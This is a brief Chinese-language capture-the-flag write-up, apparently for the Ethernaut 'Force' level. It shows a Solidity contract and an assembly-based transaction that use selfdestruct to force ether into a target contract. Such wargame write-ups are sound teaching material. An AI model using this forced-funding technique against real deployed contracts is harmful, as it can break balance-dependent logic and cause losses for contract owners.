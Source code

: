 ## 7. Force

不是很明白这题的意图，直接使用`selfdestruct`强行转账即可。

不知道为什么，这么写合约编译出来的代码会自带一个对`msg.value`的检查，该值不为0时交易会被revert。原因未知。只好直接使用汇编语言。

合约（失败）：

```sol
// SPDX-License-Identifier: MIT
pragma solidity >=0.4.25 <0.9.0;

contract Attacl {
  constructor() {
      selfdestruct(payable(address(0x76aE4F1030BA0FeC76ECE4A891Ca1e5F444CD53C)));
  }
}
```

使用汇编（成功）：

```ts
  alice.sendTransaction({
    to: undefined,
    data: assemble(parse('suicide(0x76aE4F1030BA0FeC76ECE4A891Ca1e5F444CD53C)'), {
      target: "_"
    }),
    value: toWei(0.0001),
    gasLimit: 100000,
  })
```


